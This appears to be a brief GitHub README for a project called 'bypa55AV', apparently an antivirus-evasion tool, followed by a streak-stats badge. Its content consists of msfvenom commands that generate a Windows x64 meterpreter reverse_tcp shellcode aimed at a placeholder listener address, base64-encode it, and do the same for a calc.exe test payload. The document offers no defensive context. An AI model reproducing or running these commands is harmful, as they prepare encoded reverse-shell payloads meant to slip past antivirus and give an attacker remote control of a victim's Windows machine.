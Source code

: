 # bypa55AV
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=5555 -f raw > rev.raw     
// base64 -w 0 -i rev.raw > rev.bs64     
// cat rev.bs64     
 
msfvenom -p windows/x64/exec CMD=calc.exe -f raw |base64               


<div align="center">  
  <img  src="https://github-readme-streak-stats.herokuapp.com?user=xiaotsai&theme=onedark&date_format=M%20j%5B%2C%20Y%5D" />
</div>

